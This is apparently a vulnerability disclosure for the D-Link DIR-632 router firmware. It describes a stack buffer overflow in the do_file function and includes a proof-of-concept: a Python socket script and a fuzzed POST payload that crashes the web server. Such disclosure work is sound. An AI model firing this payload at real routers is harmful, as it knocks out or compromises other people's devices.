



# Overview
Details of the vulnerability found in the dlink router dir-632.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| dir-632    |  fw103    | httpsfiles.dlink.com.auproductsDIR-632REV_AFirmwareFirmware_v1.03b08DIR632A1_FW103B08.bin   |


# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function `do_file` at offset 00424E88, where the `strcat` function is called without proper bounds checking. A specially crafted POST request can trigger the overflow.


## 2. Vulnerability  Analysis
- This vulnerability occurs when the program processes a POST request from the user. It attempts to locate a corresponding file under the www directory; however, when constructing the file name, it uses the unsafe `strcat` function for string concatenation. The destination buffer can hold at most 34 bytes of data. Therefore, when the POST request exceeds 34 bytes, a stack-based buffer overflow can occur. A specially crafted POST request can be used to trigger this vulnerability..



# POC
## python script
```python
import socket

host = "172.17.0.177"
port = 80
file = "../crashes/payload.txt"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## Payload.txt

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
POST /�)gpo|connect.cgi*oP|�*con||||.cgi*oP|||||||||||||||nd_*.gif 
```

# Vulnerability Verification Screenshot
##  dir-632


# Discoverer
m202472188@hust.edu.cn
